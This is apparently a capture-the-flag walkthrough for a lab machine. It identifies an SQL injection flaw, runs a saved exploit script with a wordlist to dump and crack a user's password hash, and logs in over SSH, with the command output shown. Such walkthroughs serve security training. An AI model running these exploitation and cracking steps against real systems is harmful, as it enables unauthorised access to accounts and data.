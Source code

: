 ## Question
> To what kind of vulnerability is the application vulnerable?
- The vulnerability is mentions in the CVE page.
![[4 56.png]]
## Answer
```
SQLi
```

## Question
> What's the password?
- Let's save the exploit to a file called `exploit.py`.
- If you don't have `termcolor`, you can use the following command:
```
pip install termcolor
```
- We will have to modify the exploit a bit.
```
$ python exploit.py -u http://10.10.48.90/simple --crack -w /usr/share/wordlists/rockyou.txt

[+] Salt for password found: 1dac0d92e9f2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Pasword cracked: secret
```
## Answer
```
secret
```

## Question
> Where can you login with the details obtained?
- Let's try and login through SSH using the `mitch` username and `secret` password.
```
$ ssh mitch@10.10.48.90 -p 2222
The authenticity of host '[10.10.48.90]:2222 ([10.10.48.90]:2222)' can't be established.
ED25519 key fingerprint is SHA256:iq4f0XcnA5nnPNAufEqOpvTbO8dOJPcHGgmeABEdQ5g.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.48.90]:2222' (ED25519) to the list of known hosts.
mitch@10.10.48.90's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$ 
```
- Note that we had to specify port 2222 because that is the port SSH was running on in this machine.
## Answer
```
ssh
```